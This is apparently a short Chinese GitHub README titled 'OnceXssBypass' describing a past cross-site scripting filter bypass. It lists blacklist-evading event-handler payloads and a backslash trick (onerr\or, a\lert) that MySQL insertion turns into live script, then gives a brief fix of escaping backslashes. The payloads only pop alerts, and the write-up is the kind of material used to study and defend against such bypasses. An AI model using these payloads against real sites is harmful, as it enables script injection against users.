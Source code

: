 # OnceXssBypass

一次XSS绕过以前的疏忽  
绕过,黑名单绕过:  

    <body onhashchange=alert(/xss/)><a href=#>Me</a>  
    <video src="http://www.w3school.com.cn/i/movie.ogg" oncanplay="alert(1)">  
    <input type="text" AUTOFOCUS onfocus=alert(1)>  
      ...... 

  
万能绕过:  

      <img src=1 onerr\or=console.log(1)>  
      <img src=1 onerr\or=a\lert(1)>

当传入的\字符串只要不组成\t \n这种特定符号的时候，输出的时候不会造成JS或者HTML语意错误  

SQL:  
INSERT INTO faq (`name`,`content`) VALUES ('Help','\Fx\xaa');  
结果:  
name ==> Help  
content ==> Fxxaa  

SQL:  
INSERT INTO faq (`name`,`content`) VALUES ('Help','\\Fx\\xaa');  
结果:  
name ==> Help  
content ==> \Fx\xaa  

因此，造成了XSS漏洞绕过    

修复方法：针对下面的这个SQL插入  
转义\符号  
addslashes会造成绕过失效  
